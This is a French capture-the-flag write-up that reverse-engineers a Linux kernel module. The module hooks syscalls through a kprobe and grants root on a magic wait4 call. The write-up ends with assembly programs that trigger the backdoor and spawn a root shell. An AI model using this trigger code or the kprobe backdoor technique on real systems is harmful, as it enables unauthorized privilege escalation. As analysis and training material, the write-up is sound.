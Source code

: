 # Kernel backdoor

Le fichier fourni a l'extension `.ko`, une recherche google permet d'apprendre qu'il s'agit d'un [module linux](https://doc.ubuntu-fr.org/tutoriel/tout_savoir_sur_les_modules_linux).

Il s'agit d'un fichier qui contient du code peut être importé et executé par le noyau Linux.  
Avec cette fonctionnalité, il est possible d'ajouter du code au noyau pour de nouvelles fonctionalités, débugger le noyau, monitorer son system, etc.  

L'équivalent de la fonction `main` dans un module Linux est `init`. Voici a quoi elle ressemble dans ida

![alt text](imgs/image.png)

Ce module appelle `register_kprobe();`, cette fonction permet de mettre en place un [Kernel probe](https://docs.kernel.org/trace/kprobes.html).  
Il s'agit d'une fonctionnalité du noyau Linux pour pouvoir le débogger en plaçant des hook sur certaines fonctions.  
Cela permet d'appeler une fonction que l'on contrôlle avant et/ou après la fonction ciblée. 

Ici la fonction est appelée avec la variable `kp` comme paramètre

![alt text](imgs/image-1.png)

La fonction ciblée est `x64_sys_call`, il s'agit de la fonction qui est appelée lorsque l'utilisateur fait un syscall.  
La ligne `kp.pre_handler = handler_pre_syscall;` met en place un pré-handler, ce qui signifie que la fonction `handler_pre_syscall` de ce module sera appelée à chaque fois que l'utilisateur fait un syscall.  
On va donc regarder ce que faire cette fonction

![alt text](imgs/image-2.png)

Si l'on croit le nom des fonction appellées, une vérification est effectuée sur le syscall et les argument donnés et rend le processus root si ces check sont validés.  
Cela ressemble à une backdoor qui permet de devenir root sur le système.

La fonction `check_syscall_number` est la suivante

![alt text](imgs/image-3.png)

Il faut que le syscall soit le numéro 61 ce qui correspond à [wait4](https://x64.syscall.sh/).  
Cela coincide avec le log dans `main`

La fonction `check_syscall_args` est la suivante

![alt text](imgs/image-4.png)

Les logs nous aident à comprendre les arguments passés, il s'agit de `rdi` et `rdi` lors du syscall.

Pour activer la backdoor il faut donc:  
- un syscall `wait4` -> RAX = 61
- RDI = 1911
- RSI = 0x29302C29 ^ 0x48455841

On peut développer un programme assembleur qui va effectuer ce syscall

```asm
; Pour assembler
; nasm -f elf64 prog.asm -o prog.o
; ld prog.o -o prog

section .text
    global _start                ; Entry point for the program

_start:
    ; wait4 syscall
    mov rax, 61                  
    mov rdi, 1911                 
    mov rsi, 0x29302C29
    xor rsi,   0x48455841        
    syscall                      
```

![alt text](imgs/image-5.png)

Mon programme a bien déclanché la backdoor, pourtant je ne suis pas root.  
En effet, mon programme est bien devenu root mais on voit qu'il a crash juste après.  
Il faut donc que je me donne un shell après être passé root

```asm
; Pour assembler
; nasm -f elf64 prog.asm -o prog.o
; ld prog.o -o prog

section .data
    sh_path db '/bin/sh', 0 

section .text
    global _start                ; Entry point for the program

_start:
    ; wait4 syscall
    mov rax, 61                  
    mov rdi, 1911                 
    mov rsi, 0x29302C29
    xor rsi,   0x48455841        
    syscall    

    ; execve syscall
    mov rax, 59
    mov rdi, sh_path
    mov rsi, 0
    mov rdx, 0
    syscall
```
![alt text](imgs/image-6.png)

Cette fois on a bien récupéré un shell root !